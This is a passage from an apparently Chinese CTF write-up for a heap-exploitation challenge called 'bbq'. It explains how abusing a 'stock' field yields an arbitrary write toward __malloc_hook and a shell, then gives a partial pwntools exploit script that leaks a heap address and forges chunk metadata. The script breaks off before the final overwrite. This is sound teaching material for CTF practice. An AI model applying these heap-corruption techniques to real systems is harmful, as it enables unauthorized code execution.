 继而控制`___malloc_hook`拿到shell.

本题的精髓所在即利用`stock`域来完成设置`head`和任意地址写,这是十分有意义，做题思路要灵活,结构体中的每一部分都是或许可以利用的。

# exp
exp写的比较可能让人看不懂,我写一步看一步...后期也懒得改了.
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": ",str(c))
def creat(name,num):
	cmd(1)
	p.sendlineafter(">> ",name)
	p.sendlineafter(">> ",str(num))
def add(name,idx):
	cmd(2)
	p.sendlineafter(">> ",name)
	p.sendlineafter(">> ",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter(">> ",str(idx))
context.arch='amd64'
p=process("./bbq")
#p=remote("buuoj.cn",28379)
creat("n132",0x999)
creat("n"*0x27,0x100)
creat("A"*0x10+p64(0xDEADBEEF11),0x100)
add("n132",0)
free(0)
add("n132",6)
add("n132",7)
add("n132",8)
add("n132",9)
add("n132",10)

free(6)
creat("A"*0x27,0)
free(-1)

cmd(1)

p.readuntil("* ")
heap=u64(p.readuntil(" ")[:-1]+"\0\0")-0x110


p.sendlineafter(">> ","A"*0x18+p64(0x91)[:-1])
p.sendlineafter(">> ",str(1))

creat(p64(0xdeadbeef11),1)
free(7)
creat("b"*0x38,1)
free(8)
creat("c"*8+'\x21',1)
free(9)
creat("d"*8+'\x21',1)
creat("A"*0x28+p64(heap+0x1e0),0)
free(-1)
free(10)
creat("d"*0x18,1)
cmd(1)
p.readuntil("* ")
p.readuntil("* ")
p.readuntil("* ")
```